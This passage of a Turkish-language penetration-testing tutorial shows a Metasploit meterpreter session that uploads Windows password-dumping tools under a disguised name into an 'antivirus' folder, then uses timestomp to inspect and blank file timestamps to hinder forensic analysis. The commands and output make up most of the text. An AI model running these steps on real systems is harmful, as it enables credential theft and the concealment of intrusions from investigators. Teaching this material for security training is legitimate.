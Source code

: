 ```bash
**[*********]** uploading  : /usr/share/windows-binaries/fgdump/pstgdump.exe -> c:WINNTantiviruspwservice.exe
**[*********]** uploaded   : /usr/share/windows-binaries/fgdump/pstgdump.exe -> c:WINNTantiviruspwservice.exe
meterpreter **>** ls

Listing: C:\WINNT\antivirus
**===========================**

Mode              Size    Type  Last modified                   Name          
----              ----    ----  -------------                   ----          
100777/rwxrwxrwx  174080  fil   2017-05-09 15:23:19 -0600  cachedump64.exe
100777/rwxrwxrwx  57344   fil   2017-05-09 15:23:20 -0600  pstgdump.exe
100777/rwxrwxrwx  57344   fil   2017-05-09 15:23:18 -0600  servpw.exe
meterpreter **>** cd ..
```



Artık Windows içerisine `antivirus` klasörünün içerisine yüklediğimiz 3 adet `exe` dosyamız var. Bunların zaman bilgilerine bakalım.


```bash
meterpreter **>** timestomp antivirus\\servpw.exe -v
Modified      : 2017-05-09 16:23:18 -0600
Accessed      : 2017-05-09 16:23:18 -0600
Created       : 2017-05-09 16:23:18 -0600
Entry Modified: 2017-05-09 16:23:18 -0600
meterpreter **>** timestomp antivirus\\pstgdump.exe -v
Modified      : 2017-05-09 16:23:20 -0600
Accessed      : 2017-05-09 16:23:19 -0600
Created       : 2017-05-09 16:23:19 -0600
Entry Modified: 2017-05-09 16:23:20 -0600
```



`timestomp` komutunun `-r` seçeneğini kullanarak tüm klasör içeriğindeki dosyaların zaman bilgilerini boşaltabilirsiniz.


```bash
meterpreter **>** timestomp antivirus -r
**[*********]** Blanking directory MACE attributes on antivirus

meterpreter **>** ls
40777/rwxrwxrwx   0      dir   1980-01-01 00:00:00 -0700  ..
100666/rw-rw-rw-  115    fil   2106-02-06 23:28:15 -0700  servpw.exe
100666/rw-rw-rw-  12165  fil   2106-02-06 23:28:15 -0700  pstgdump.exe
```



Yukarıda anlatılan yöntemlerle zaman bilgilerini değiştirdik veya boş hale getirdik ancak dikkatli **forensics** araştırmacıları bu garipliği fark edecektir.

